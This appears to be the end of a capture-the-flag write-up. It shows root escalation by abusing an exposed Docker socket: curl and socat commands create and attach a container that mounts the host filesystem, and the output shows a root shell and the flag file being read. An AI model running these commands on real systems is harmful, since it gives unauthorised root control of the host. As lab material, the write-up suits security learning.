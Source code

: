 then we send a JSON post request to the docker API with one of those images IDs, to create the container

```
sysadmin@ubuntu:/tmp$ curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"d3bd49a68bba89420fc1759b197eb2dea9c8afcbb6ea1b6a59daecd1d5a0f972","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost/containers/create
{"Id":"237cb3a25fbbcf9b4bd397e6f4ef999552b2870620c09fa0da7ee2a060be2d6e","Warnings":null}
sysadmin@ubuntu:/tmp$ curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/237cb3a25fbbcf9b4bd397e6f4ef999552b2870620c09fa0da7ee2a060be2d6e/start
```

finaly we can initiate a connection with the new container using socat
```
sysadmin@ubuntu:/tmp$ ./socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/237cb3a25fbbcf9b4bd397e6f4ef999552b2870620c09fa0da7ee2a060be2d6e/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp

HTTP/1.1 101 UPGRADED
Content-Type: application/vnd.docker.raw-stream
Connection: Upgrade
Upgrade: tcp

id
uid=0(root) gid=0(root) groups=0(root)
cat /host_root/root/root.txt
Ka************3j
```
<br>
Best Regards

[m3dsec](https://twitter.com/m3dsec).

<br>
<br>

[back to main()](../../index.md)

<br>
<br>
